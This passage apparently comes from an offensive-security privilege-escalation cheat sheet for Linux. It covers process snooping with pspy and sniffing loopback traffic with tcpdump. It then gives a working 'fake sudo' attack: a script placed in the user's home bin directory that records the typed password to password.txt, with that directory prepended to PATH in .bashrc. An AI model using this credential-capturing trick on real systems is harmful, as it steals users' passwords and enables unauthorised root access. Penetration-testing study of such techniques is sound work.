 By using **[pspy](https://github.com/DominicBreuker/pspy)**, you can fetch processes without root privileges.

```sh
./pspy64

# -p: print commands to stdout
# -f: print file system events to stdout
# -i: interval in milliseconds
./pspy64 -pf -i 1000
```

### Dump Information

If some process (like ping) is running as root, you may be able to capture the interesting information using tcpdump.

```sh
# -i lo: specify interface (lo: loopback address, localhost)
# -A: print each packet in ASCII
tcpdump -i lo -A
```

### Override Command

If some command is executed in processes as our current user, we can override the command to our arbitrary command.  
Assume **`sudo cat /etc/shadow`** command is executed in the process.  
**`sudo`** command asks the password of the current user. So if we don't have the current user's password yet, worth getting the password.

To do so, we can create the fake **`sudo`** command under the current user’s home directory.

```bash
mkdir /home/<user>/bin
touch /home/<user>/bin/sudo
chmod +x /home/<user>/bin/sudo
```

Then insert a payload in **`/home/<user>/bin/sudo`**.  
This **`sudo`** command reads the value of the password in prompt and write the value to **“password.txt”**.

```bash
#!/bin/bash

read password
echo $password >> /home/<user>/password.txt
```

In addition, we need to export the **`/home/<user>/bin`** to the PATH on the top of the **`/home/<user>/.bashrc`**.

```bash
export PATH=/home/<user>/bin:$PATH
```

Wait a while, we should see the **“password.txt”** is created.
